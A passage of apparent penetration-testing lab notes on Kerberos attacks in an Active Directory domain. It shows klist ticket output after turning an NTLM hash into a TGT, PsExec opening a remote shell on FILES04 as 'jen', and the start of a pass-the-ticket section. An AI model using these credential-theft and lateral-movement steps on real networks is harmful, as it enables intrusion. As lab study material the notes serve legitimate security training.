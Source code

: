 ```
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```

The output indicates that the **net use** command was successful. We then used **klist** to list the newly requested Kerberos tickets, including a TGT and a TGS for the _Common Internet File System_ (CIFS) service.

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM) such as the official PsExec application from Microsoft.

Let's try that now, running **.\PsExec.exe** to launch **cmd** remotely on the \\files04 machine as _jen_.

```shell
PS C:\Windows\system32> cd C:\tools\SysinternalsSuite\
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
FILES04
```

#### Pass the Ticket (Stealing TGT and using it to authenticate through Kerberos)

```shell
PS C:\Windows\system32> whoami
corp\jen
PS C:\Windows\system32> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.
At line:1 char:1
+ ls \\web04\backup
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\web04\backup:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami